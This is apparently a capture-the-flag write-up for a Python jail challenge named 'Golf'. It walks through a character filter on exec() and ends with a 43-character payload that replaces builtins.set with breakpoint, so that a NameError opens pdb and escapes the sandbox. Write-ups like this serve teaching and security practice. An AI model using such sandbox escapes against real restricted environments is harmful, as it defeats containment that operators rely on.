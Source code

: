 # Golf

## Overview

We're given a file named chall.py, let's take a look at its content

```py
#!/usr/bin/env python3.13
if(c:=input()).isascii()*~-any(x in(c)for(x)in'!"#\'()*+-:<>@[]\\_{}'):exec(c[:43])
```

This is obviously a pyjail, and our goal is to read the flag from a file. First, let's rewrite this code in a more understandable way:

```py
#!/usr/bin/env python3.13

code = input()

if code.isascii() and not any(x in code for x in '!"#\'()*+-:<>@[]\\_{}'):
    exec(code[:43])
```

So that means we can only use the following characters ```?.,|^/`;=&~$%```. Fortunately for us, built-in functions are not erased, so we can still import modules and execute certain operations.

## Main Idea
The payload must be extremely short. Spawning a shell with so few characters is a challenging task, especially since we cannot directly call functions. To bypass this restriction, we can search for gadgets inside Python that will be triggered when an exception occurs.

The shortest way to trigger an exception is by referencing an undefined variable:

```py
>>> x
Traceback (most recent call last):
  File "<python-input-5>", line 1, in <module>
    x
NameError: name 'x' is not defined
```

Now we can try to overwrite some builtins to see if they're being called before throwing the exception. Our goal is to find a function that is invoked with no arguments so that we can overwrite it with `breakpoint`. A good candidate is `set`. Let's try overwriting it:

```py
import builtins;builtins.set = breakpoint;a

# Output:
  File "/slop.py", line 1, in <module>
    import builtins;builtins.set = breakpoint;a
NameError: name 'a' is not defined
```

This is strange. We know that `breakpoint` is being called because if we overwrite `set` with `print`, we can observe values and newlines being printed.

The `breakpoint` function imports the `pdb` module, which will  import other modules. To prevent `set` from being called before we intend it to, we must first import `pdb`.

## Final payload

```py
import pdb,builtins;builtins.set = breakpoint;a
```

This payload is still too long, so we have to shorten it:

```py
import pdb,builtins as e;e.set=breakpoint;a
```

This successfully breaks out of the jail and allows us to get the flag.
